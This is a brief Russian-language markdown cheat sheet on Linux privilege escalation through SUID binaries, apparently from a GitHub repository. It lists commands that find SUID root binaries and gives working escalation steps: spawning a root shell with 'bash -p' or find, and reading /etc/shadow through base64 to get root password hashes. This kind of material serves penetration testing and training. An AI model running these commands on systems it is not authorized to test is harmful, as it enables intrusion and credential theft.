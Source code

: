 # Эскалация привелегий 
### Используя уязвимости SUID 
 Бит разрешения, который позволяет пользователю запускать исполняемый файл с правами владельца этого файла

 > Необходимо найти бинарники где установлен SUID
 ```shell
find / -user root -perm -4000 -print 2>/dev/null
find / -perm -u=s -type f 2>/dev/null
find / -user root -perm -4000 -exec ls -ldb {} \;
 ```
>  Ищем совпадения на [gtfobins](https://gtfobins.github.io/)

### Повышаем права
> 1. bash
```shell
ls -la /bin/bash
bash -p
whoami
 ```
> 2. find
```shell
ls -la /usr/bin/find
find . -exec /bin/bash -p \;
whoami
 ```
 > 3. base64 - получаем хэш root пользователя
```shell
ls -la /usr/bin/base64
LFILE=/etc/shadow
base64 "$LFILE" | base64 --decode
 ```


